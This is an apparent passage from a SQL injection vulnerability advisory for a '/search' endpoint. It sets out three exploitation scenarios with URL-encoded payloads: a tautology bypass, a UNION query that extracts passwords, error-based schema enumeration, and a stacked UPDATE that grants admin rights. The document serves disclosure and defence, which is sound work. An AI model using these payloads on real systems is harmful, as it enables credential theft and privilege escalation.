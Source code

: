 - **Low Availability Impact (A:L)**: While the vulnerability primarily affects confidentiality and integrity, certain SQL injection attacks could cause resource consumption or trigger errors that temporarily impact service availability.

# Exploitation Scenarios
**Scenario 1: Privileged User Data Exfiltration**
An attacker who has gained administrative credentials through phishing or other means accesses the vulnerable `/search` endpoint and tests it with a simple payload: `' OR '1'='1' --`. When submitted as the username parameter:

```
GET /search?username=%27%20OR%20%271%27%3D%271%27%20--%20

```

The application constructs the following SQL query:

```sql
SELECT * FROM users WHERE username = '' OR '1'='1' --'

```

The injected code modifies the query logic, causing it to return all users in the database instead of a specific user. The attacker can then progressively extract more information using UNION-based attacks:

```
GET /search?username=%27%20UNION%20SELECT%20username,password,email,NULL%20FROM%20users%20--%20

```

**Scenario 2: Database Schema Enumeration by Administrator**
A malicious administrator uses error-based SQL injection to determine the database structure. By injecting payloads that cause SQL syntax errors, they extract information from error messages:

```
GET /search?username=%27%20AND%20(SELECT%201%20FROM%20(SELECT%20COUNT(*),CONCAT(DATABASE(),0x3a,TABLE_NAME,0x3a,COLUMN_NAME,FLOOR(RAND(0)*2))%20FROM%20INFORMATION_SCHEMA.COLUMNS%20GROUP%20BY%20x)a)%20--%20

```

This helps the attacker map out the database schema, including table names and column structures, facilitating more targeted attacks.

**Scenario 3: Unauthorized Data Modification by Insider Threat**
An administrator with malicious intent injects SQL to modify data beyond their intended permissions:

```
GET /search?username=%27%3B%20UPDATE%20users%20SET%20is_admin%3D1%20WHERE%20username%3D%27accomplice%27%3B%20--%20

```

This injection attempts to escalate privileges for another user by setting their admin flag to true. If successful, the administrator has now created another administrative account that may not be monitored as closely, providing additional persistent access to the system.
